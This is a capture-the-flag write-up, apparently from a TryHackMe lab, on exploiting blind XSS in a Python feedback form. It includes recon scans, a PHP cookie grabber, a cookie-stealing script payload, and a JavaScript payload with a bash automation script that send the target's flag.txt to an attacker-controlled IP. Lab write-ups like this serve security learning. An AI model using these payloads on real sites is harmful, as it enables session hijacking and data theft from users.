



- Example of web applications and web pages where blind XSS attacks can occur:
  - Contact/Feedback pages
  - Log viewers
  - Exception handlers
  - Chat applications / forums
  - Customer ticket applications
  - Web Application Firewalls
  - Any application that requires user moderation


If a website has a `"Submit Feedback"` functionality and using a Python-based server, several common vulnerabilities could be present depending on how the server processes and handles user input.
1. Cross-Site Scripting (XSS)
    - Cause: Improper validation and sanitization of user input.
    - Impact: Attackers can inject malicious JavaScript that executes in the browser of other users.
    - Mitigation: Sanitize and encode all output to prevent HTML or script injection.

2. SQL Injection
    - Cause: User input directly concatenated into SQL queries without parameterization.
    - Impact: Attackers can manipulate queries to extract or modify database data.
    - Mitigation: Use parameterized queries or ORM methods like SQLAlchemy.

3. Server-Side Template Injection (SSTI)
    - Cause: User input is rendered directly in server-side templates without proper sanitization.
    - Impact: Remote code execution if malicious payloads are evaluated.
    - Mitigation: Use a template engine that escapes variables by default (e.g., Jinja2 with autoescaping).

<br>
<br>




## Nmap enumeration
```bash
$ nmap -sC -sV -Pn -p$(nmap -p- --min-rate=1000 -T4 10.10.191.138 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.191.138 -oN tcp.txt 

Nmap scan report for 10.10.137.16
Host is up (0.32s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.8.10
|     Date: Sat, 30 Nov 2024 03:44:44 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1655
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Cat Sticker Shop</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     margin: 0;
|     padding: 0;
|     header {
|     background-color: #333;
|     color: #fff;
|     text-align: center;
|     padding: 10px;
|     header ul {
|     list-style: none;
|     padding: 0;
|     header li {
|     display: inline;
|     margin-right: 20px;
|     header a {
|     text-decoration: none;
|     color: #fff;
|     font-weight: bold;
|     .content {
|     padding: 20px;
|_    .product {
...
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## ferox
```bash
feroxbuster -u http://10.10.137.16:8080 -w /usr/share/seclists/Discovery/Web-Content/big.txt -C 403,404 --scan-dir-listings -o ferox.txt  
                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.137.16:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 💢  Status Code Filters   │ [403, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 💾  Output File           │ ferox.txt
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       92l      186w     2360c http://10.10.137.16:8080/submit_feedback
200      GET      825l     5112w   458982c http://10.10.137.16:8080/static/images/cat_sticker_2.png
200      GET     1087l     6521w   529748c http://10.10.137.16:8080/static/images/cat_sticker_1.png
200      GET       64l      139w     1655c http://10.10.137.16:8080/
```

## Debugging
```bash
$ curl -I http://10.10.137.16:8080
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Sat, 30 Nov 2024 04:02:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1655
Connection: close
```

## XSStrike
> post data
```bash
$ python3 xsstrike.py -u "http://10.10.137.16:8080/" --data "feedback=query" 

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[-] WAF detected: Anquanbao Web Application Firewall (Anquanbao) 
[!] Testing parameter: feedback 
[-] No reflection found 

```


> [payload-of-all-things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss)

## PHP Grabber
> save into: grabber.php
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
## XSS Payload 
```bash
<script>document.location='http://10.23.47.147:9001/sticker/grabber.php?c='+document.cookie</script>
```
## Curl 
> You can also intercept in Burp Suite, but I'm a cURL fan :)
```bash
$ curl -X POST http://10.10.137.16:8080/submit_feedback --data 'feedback="<script>document.location='http://10.23.47.147:9001/sticker/grabber.php?c='+document.cookie</script>' -v 
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.137.16:8080...
* Connected to 10.10.137.16 (10.10.137.16) port 8080
* using HTTP/1.x
> POST /submit_feedback HTTP/1.1
> Host: 10.10.137.16:8080
> User-Agent: curl/8.10.1
> Accept: */*
> Content-Length: 109
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 109 bytes
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.1 Python/3.8.10
< Date: Sat, 30 Nov 2024 07:13:19 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 2427
< Connection: close
< 
<!DOCTYPE html>
<html>
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Feedback</title>
    <style>
...
...
```
## Local server listener
**The result confirms that the blind XSS vulnerability is present. We can now craft a custom JavaScript payload to grab the `flag.txt` from the target server. Since we’re connected to the Tryhackme VPN, we can use the localhost IP on the target server.**

<br>


```bash
$ ruby -run -ehttpd . -p9001      
[2024-11-30 15:03:34] INFO  WEBrick 1.8.1
[2024-11-30 15:03:34] INFO  ruby 3.1.2 (2022-04-12) [x86_64-linux-gnu]
[2024-11-30 15:03:34] INFO  WEBrick::HTTPServer#start: pid=123454 port=9001
[2024-11-30 15:03:34] INFO  To access this server, open this URL in a browser:
[2024-11-30 15:03:34] INFO      http://127.0.0.1:9001
[2024-11-30 15:03:34] INFO      http://[::1]:9001
10.10.137.16 - - [30/Nov/2024:15:03:59 PST] "GET /grabber.php?c=127.0.0.1 HTTP/1.1" 200 117
http://127.0.0.1:8080/ -> /grabber.php?c=127.0.0.1
10.10.137.16 - - [30/Nov/2024:15:04:10 PST] "GET /grabber.php?c=127.0.0.1 HTTP/1.1" 200 117
http://127.0.0.1:8080/ -> /grabber.php?c=127.0.0.1
10.10.137.16 - - [30/Nov/2024:15:04:21 PST] "GET /grabber.php?c=127.0.0.1 HTTP/1.1" 200 117
http://127.0.0.1:8080/ -> /grabber.php?c=127.0.0.1
^C[2024-11-30 15:04:23] INFO  going to shutdown ...
[2024-11-30 15:04:24] INFO  WEBrick::HTTPServer#start done.
```

## Custom Payload 
```bash
<script>
  (async () => {
    try {
      const flag = await (await fetch('http://127.0.0.1:8080/flag.txt')).text();
      await fetch('http://10.23.42.147:443/?flag=' + encodeURIComponent(flag));
    } catch (e) {
      await fetch('http://10.23.42.147:443/?error=' + encodeURIComponent(e.message));
    }
  })();
</script>
```
## Automation bash script
> payload.sh
```bash
#!/bin/bash

TARGET="http://10.10.137.16:8080/submit_feedback"
ATTACKER="http://10.23.42.147:443"

PAYLOAD="<script>
  (async () => {
    try {
      const flag = await (await fetch('http://127.0.0.1:8080/flag.txt')).text();
      await fetch('${ATTACKER}/?flag=' + encodeURIComponent(flag));
    } catch (e) {
      await fetch('${ATTACKER}/?error=' + encodeURIComponent(e.message));
    }
  })();
</script>"

curl -X POST "$TARGET" --data "feedback=$PAYLOAD" -v

```

## Output
```bash
$ time python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
10.10.137.16 - - [30/Nov/2024 14:40:58] "GET /?flag={Redacted} HTTP/1.1" 200 -
10.10.137.16 - - [30/Nov/2024 14:40:59] "GET /?error=Failed%20to%20fetch HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

real	3.56s
user	0.10s
sys	0.00s
cpu	2%
            
```
## Flag.txt
```bash
flag=THM%7B83789a69074{REDACTED}cabe8b62305ee6%7D
```
 
